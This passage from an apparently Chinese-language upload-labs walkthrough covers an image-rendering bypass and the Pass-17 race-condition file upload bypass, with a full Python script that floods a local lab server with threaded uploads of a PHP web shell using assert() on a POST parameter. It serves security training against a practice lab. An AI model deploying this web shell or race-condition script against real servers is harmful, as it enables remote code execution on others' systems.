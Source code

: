 ![](/assets/img/posts/16-6.png)

同时你也可以使用工具对文件进行渲染：
https://wiki.ioin.in/soft/detail/1q
先上传正常图片，经过渲染后下载正常图片，使用该工具处理经过渲染的图片，成功上传。
## Pass-17 （多线程并发上传绕过删除条件竞争）

利用条件竞争删除文件时间差绕过。使用命令`pip install hackhttp`安装[hackhttp](https://github.com/BugScanTeam/hackhttp)模块，运行下面的 Python 代码即可。如果还是删除太快，可以适当调整线程并发数。

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

import hackhttp
from multiprocessing.dummy import Pool as ThreadPool


def upload(lists):
    hh = hackhttp.hackhttp()
    raw = """POST /upload-labs/Pass-17/index.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/upload-labs/Pass-17/index.php
Cookie: pass=17
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------6696274297634
Content-Length: 341

-----------------------------6696274297634
Content-Disposition: form-data; name="upload_file"; filename="17.php"
Content-Type: application/octet-stream

<?php assert($_POST["LandGrey"])?>
-----------------------------6696274297634
Content-Disposition: form-data; name="submit"

上传
-----------------------------6696274297634--
"""
    code, head, html, redirect, log = hh.http('http://127.0.0.1/upload-labs/Pass-17/index.php', raw=raw)
    print(str(code) + "\r")


pool = ThreadPool(10)
pool.map(upload, range(10000))
pool.close()
```